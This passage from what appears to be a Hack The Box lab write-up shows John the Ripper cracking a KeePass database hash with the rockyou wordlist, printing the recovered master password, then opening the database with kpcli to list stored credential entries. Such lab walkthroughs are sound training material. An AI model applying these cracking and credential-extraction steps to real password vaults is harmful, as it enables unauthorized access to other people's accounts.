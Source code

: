 Then run JtR on the hash.

```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We get back the following output.

```text
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:51 DONE (2020-02-29 22:11) 0.01953g/s 1073p/s 1073c/s 1073C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have all the information we need to open the KeePass database. To do that from the command line, we’ll use the kpcli program.

```text
root@kali:~/Desktop/htb/jeeves/smb# kpcli --kdb CEH.kdbx
Please provide the master password: *************************KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH/
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                        www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                    www.eccouncil.org/programs/cer
4. It's a secret                      localhost:8180/secret.jsp
5. Jenkins admin                                 localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                  www.walmart.com
```

Let’s view some of the interesting looking entries.
